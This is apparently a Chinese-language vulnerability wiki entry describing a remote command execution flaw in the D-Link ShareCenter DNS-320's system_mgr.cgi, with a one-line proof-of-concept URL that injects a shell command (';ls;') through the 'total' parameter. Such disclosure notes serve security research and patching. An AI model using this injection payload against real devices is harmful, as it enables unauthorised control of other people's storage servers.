 # D-Link ShareCenter DNS-320 system_mgr.cgi 远程命令执行漏洞

## 漏洞描述

D-Link ShareCenter DNS-320 system_mgr.cgi 存在远程命令执行，攻击者通过漏洞可以控制服务器

## 漏洞影响

<a-checkbox checked>D-Link ShareCenter DNS-320</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/image-20210605180903289.png)



漏洞POC为



```plain
/cgi-bin/system_mgr.cgi?cmd=cgi_get_log_item&total=;ls;
```



![img](/assets/PeiQi-Wiki/img/image-20210605181224009.png)

